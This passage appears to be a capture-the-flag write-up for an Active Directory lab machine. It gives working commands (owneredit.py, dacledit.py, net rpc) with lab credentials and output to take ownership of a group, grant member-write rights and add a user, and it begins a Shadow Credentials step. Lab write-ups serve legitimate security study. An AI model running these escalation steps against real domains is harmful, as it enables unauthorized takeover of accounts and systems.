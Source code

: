 # Exploitation

the plan here is clear:
* we abuse `GeneralWrite` on the `MANAGEMENT` group and add our self to that group
* since we are members of `MANAGEMENT` group we have `GenericWrite` on the `MANAGEMENT_SVC` user
* `MANAGEMENT_SVC` have CanPSRemote right which means we can connect using winrm 

## from judith to MANAGEMENT group

`judith` have WriteOwner right on the MANAGEMENT group so we can add our self to this group by being its owner 

#### change ownership
```bash
owneredit.py -action write -new-owner 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
```

```
[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!

```

#### Modifying the rights
we give our self the right to add members

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=Users,DC=certified,DC=htb' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.10.11.41
```

```bash
[*] DACL backed up to dacledit-20241221-123940.bak
[*] DACL modified successfully!
```

#### Now we add `judith` to that group
```bash
net rpc group addmem "MANAGEMENT" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S 10.10.11.41
```

## From MANAGEMENT group to management_svc user

because the envirement have PKINT and the MANAGEMENT group members have `GenericWrite` we can abuse `Shadow Credentiels` attack, i've explained here [[Active directory/Shadow credentiels|Shadow credentiels]]

#### we set the `msDS-KeyCredentialLink` to a public key we have its private key
